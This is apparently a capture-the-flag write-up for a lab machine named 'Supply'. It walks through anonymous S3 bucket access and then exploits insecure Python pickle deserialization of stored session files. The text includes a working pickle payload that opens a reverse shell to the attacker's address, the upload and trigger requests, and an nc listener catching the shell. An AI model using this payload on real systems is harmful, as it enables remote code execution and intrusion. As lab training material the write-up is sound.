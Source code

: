 ## Supply

```bash
$ nmap -sS -sV -Pn -p- -T5 -n 10.129.173.190

Nmap scan report for 10.129.173.190
Host is up (0.022s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

For this challenge, were presented a login page, and a feature to sign in as guest on the web application:

![Login page](./img/supply_1.png)

By browsing to the home page of the web application, we noticed some assets were not loading as it was using a custom domain name:

```bash
$ curl http://10.129.173.190/ -s | grep 's3.' -C3
  <title>Project Management Portal</title>
  
  
  <link rel='stylesheet' href='http://s3.supply.htb/assets/css/bootstrap.min.css'>
  <script src="http://s3.supply.htb/assets/js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js"></script>
<style>
body {
  background-color: black;
```

We checked what was hosted on the same machine but for the assets' virtual host `s3.supply.htb`:

```bash
$ curl http://10.129.173.190 -H "Host: s3.supply.htb" -v
*   Trying 10.129.173.190:80...
* Connected to 10.129.173.190 (10.129.173.190) port 80 (#0)
> GET / HTTP/1.1
> Host: s3.supply.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 404 
< Server: hypercorn-h11
< content-type: text/html; charset=utf-8
< content-length: 21
[...]
< 
* Connection #0 to host 10.129.173.190 left intact
{"status": "running"}
```

We saw it was a self-hosted AWS platform as it was for the Cloud challenge `Theta`. We then listed all the enabled features:

```bash
$ curl http://10.129.173.190/health -H "Host: s3.supply.htb" -v
*   Trying 10.129.173.190:80...
* Connected to 10.129.173.190 (10.129.173.190) port 80 (#0)
> GET /health HTTP/1.1
> Host: s3.supply.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Server: hypercorn-h11
[...]
< 
* Connection #0 to host 10.129.173.190 left intact
{"services": {"s3": "running"}, "features": {"persistence": "initialized", "initScripts": "initialized"}}
```

We then checked if an anonymous access was granted to the `s3` bucket:

To do so, we added a line to our `/etc/hosts` file for the virtual host `s3.supply.htb` and we used the `AWS` cli:

```bash
$ aws configure

AWS Access Key ID [None]: a
AWS Secret Access Key [None]: a
Default region name [None]: a
Default output format [None]: json

$ aws s3 --endpoint-url http://s3.supply.htb ls

2021-07-26 23:47:41 assets
```

Once we noticed we could list the hosted files, we downloaded all the files by using the `sync` command:

```bash
$ aws s3 --endpoint-url http://s3.supply.htb sync s3://assets .
download: s3://assets/js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js to js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js
download: s3://assets/vendor/autoload.php to vendor/autoload.php  
[...]
download: s3://assets/vendor/composer/platform_check.php to vendor/composer/platform_check.php
download: s3://assets/vendor/composer/autoload_psr4.php to vendor/composer/autoload_psr4.php
download: s3://assets/css/bootstrap.min.css to css/bootstrap.min.css 
download: s3://assets/vendor/composer/autoload_static.php to vendor/composer/autoload_static.php
download: s3://assets/vendor/composer/installed.json to vendor/composer/installed.json
[...]
```

Apart from the web assets (minified css and javascript files), we saw nothing that was used by the web application.

By playing a bit with the login feature of the web application, we noticed a new folder was created on the bucket and that sessions were stored on the `s3` bucket:

```bash
$ aws s3 --endpoint-url http://s3.supply.htb ls assets/
                           PRE css/
                           PRE js/
                           PRE sessions/
                           PRE vendor/
                           
$ aws s3 --endpoint-url http://s3.supply.htb sync s3://assets .
download: s3://assets/sessions/c32d3081-d9ee-4c0b-9f05-fe402cbf1138 to sessions/c32d3081-d9ee-4c0b-9f05-fe402cbf1138

```bash
$ xxd c32d3081-d9ee-4c0b-9f05-fe402cbf1138
00000000: 8004 9525 0000 0000 0000 007d 9428 8c08  ...%.......}.(..
00000010: 7573 6572 6e61 6d65 948c 0567 7565 7374  username...guest
00000020: 948c 0870 6173 7377 6f72 6494 6802 752e  ...password.h.u.
```

The sessions content looked-like serialized data. We then tried to decode them using `pickletools`:

```bash
$ python3 -m pickletools c32d3081-d9ee-4c0b-9f05-fe402cbf1138 
    0: \x80 PROTO      4
    2: \x95 FRAME      37
   11: }    EMPTY_DICT
   12: \x94 MEMOIZE    (as 0)
   13: (    MARK
   14: \x8c     SHORT_BINUNICODE 'username'
   24: \x94     MEMOIZE    (as 1)
   25: \x8c     SHORT_BINUNICODE 'guest'
   32: \x94     MEMOIZE    (as 2)
   33: \x8c     SHORT_BINUNICODE 'password'
   43: \x94     MEMOIZE    (as 3)
   44: h        BINGET     2
   46: u        SETITEMS   (MARK at 13)
   47: .    STOP
highest protocol among opcodes = 4
```

From there, we replaced the serialized data with a reduced function that would execute a reverse shell during the deserialization process:

```bash
$ cat forge_session.py

import pickle
import base64
import os

class RevShell:
    def __reduce__(self):
        cmd = ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.65", 9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")')
        return exec, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dump(RevShell(), protocol=2, file=open('fd9db610-e957-4a8e-a877-a1bae508805c', 'wb'))
```

Then, we uploaded the new session file to the bucket:

```bash
$ python3 forge_session.py 

$ aws s3 --endpoint-url http://s3.supply.htb cp fd9db610-e957-4a8e-a877-a1bae508805c s3://assets/sessions/fd9db610-e957-4a8e-a877-a1bae508805c
upload: ./fd9db610-e957-4a8e-a877-a1bae508805c to s3://assets/sessions/fd9db610-e957-4a8e-a877-a1bae508805c
```

Finally, we triggered the Python deserialize code by requesting the `/home` page of the web application and by specifying our malicious session id:

```bash
GET /home HTTP/1.1
Host: 10.129.173.190
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=fd9db610-e957-4a8e-a877-a1bae508805c
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


HTTP/1.1 302 FOUND
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 208
Location: http://10.129.173.190/
Connection: close
Content-Type: text/html; charset=utf-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>. If not click the link.
```

Once the session was deserialized, we received a connect-back from the Python reverse shell:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.173.190] 38980
www-data@supply:/$ id     	
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@supply:/$ cat /opt/flag.txt
cat /opt/flag.txt
HTB{0p3n_aws_s3ssion_f1l3_st0rag3==rc3_pwn4g3}
```

